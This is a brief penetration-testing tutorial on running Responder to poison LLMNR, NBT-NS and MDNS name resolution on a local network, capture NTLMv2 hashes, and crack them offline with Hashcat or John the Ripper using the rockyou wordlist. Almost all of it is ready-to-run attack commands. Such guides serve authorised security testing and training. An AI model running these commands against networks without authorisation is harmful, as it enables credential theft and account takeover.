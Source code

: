 ```yaml
---
legal-banner: true
---
```


### **Step 1. Starting Responder**

To begin, ensure that Responder is installed on your system. If it’s not already installed, follow these steps:  

1. Update the package list:  
   ```bash
   sudo apt update
   ```

2. Install Responder:  
   ```bash
   sudo apt install responder
   ```

3. Run Responder with default settings, Replace `ens224` with the name of your network interface:  
   ```bash
   sudo responder -I ens224
   ```

### **Step 2. Responder Operational Overview**

Responder actively listens for **LLMNR**, **NBT-NS**, and **MDNS** requests on the network and responds to them. When it captures a hash, it saves it in the `/usr/share/responder/logs` directory. You can monitor activity either directly in the terminal or by reviewing the log files.  

- **Terminal Output:** Responder displays captured hashes and relevant information in real time.  
- **Log Files:** Captured hashes are stored in `/usr/share/responder/logs`.  
- **Captured Data:** Typically, Responder captures **NTLMv2 hashes**, logging them with real-time updates.  

### **Step 3. Cracking NTLMv2 Hashes**

Once you have captured hashes, you can crack them using **Hashcat** or **John the Ripper**.  
The examples below use the `rockyou.txt` wordlist.  

1. Crack NTLMv2 hashes with Hashcat:  
   ```bash
   hashcat -m 5600 captured_ntlmv2 /usr/share/wordlists/rockyou.txt
   ```

2. Crack NTLMv2 hashes with John the Ripper:  
   ```bash
   john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt captured_ntlmv2.txt
   ```